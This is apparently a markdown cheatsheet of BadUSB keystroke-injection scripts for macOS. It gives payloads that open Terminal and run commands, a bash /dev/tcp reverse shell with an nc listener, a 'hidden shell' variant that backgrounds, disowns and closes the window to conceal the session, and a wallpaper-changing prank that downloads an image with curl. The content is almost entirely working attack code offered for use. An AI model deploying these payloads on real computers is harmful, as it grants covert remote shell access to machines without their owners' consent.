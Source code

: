 # BadUSb cheatsheet for OSX

http://malduinow.tools/index.html

## Launch a command 

	LED 0 255 0
	DELAY 1000
	LED 0 0 0
	LOCALE US
	DELAY 1000
	GUI SPACE
	DELAY 500
	STRING terminal
	DELAY 500
	ENTER
	DELAY 500
	STRING whoami
	ENTER
	LED 0 255 255

## Reverse shell 
Listener

	nc -lvp 4444
	
Payload

	LED 0 255 0
	DELAY 1000
	LED 0 0 0
	LOCALE US
	DELAY 1000
	GUI SPACE
	DELAY 500
	STRING terminal
	DELAY 500
	ENTER
	DELAY 500
	GUI n
	DELAY 500
	STRING exec 5<>/dev/tcp/127.0.0.1/4444
	ENTER
	STRING cat <&5 | while read line; do $line 2>&5 >&5; done
	ENTER
	LED 0 255 255

Hidden Shell

	LED 0 255 0
	DELAY 1000
	LED 0 0 0
	LOCALE US
	DELAY 1000
	GUI SPACE
	DELAY 500
	STRING terminal
	DELAY 500
	ENTER
	DELAY 500
	STRING exec 5<>/dev/tcp/127.0.0.1/4444
	ENTER
	STRING cat <&5 | while read line; do $line 2>&5 >&5; done
	ENTER
	DELAY 500
	CTRL z
	DELAY 500
	STRING bg
	ENTER
	STRING disown
	ENTER
	GUI w
	ENTER
	LED 0 0 255

## Change wallpaper

Code (make sure it works and modify the payload accordingly)

	curl https://www.kolpaper.com/wp-content/uploads/2020/10/Walking-Duck-Wallpaper-HD.jpg -o /var/tmp/image.jpg
	
	osascript -e 'tell application "Finder" to set desktop picture to POSIX file "/var/tmp/image.jpg"'
	
Payload

	LED 0 255 0
	DELAY 1000
	LED 0 0 0
	LOCALE US
	DELAY 1000
	GUI SPACE
	DELAY 500
	STRING terminal
	DELAY 500
	ENTER
	DELAY 500
	STRING curl https://wallpapercave.com/wp/VWltOoz.jpg -o /var/tmp/VWltOoz.jpg
	ENTER
	ENTER
	DELAY 500
	STRING osascript -e 'tell application "Finder" to set desktop picture to POSIX file "/var/tmp/VWltOoz.jpg"'
	ENTER
	ENTER
	DELAY 200
	GUI w
	ENTER
	ENTER
	LED 0 255 255
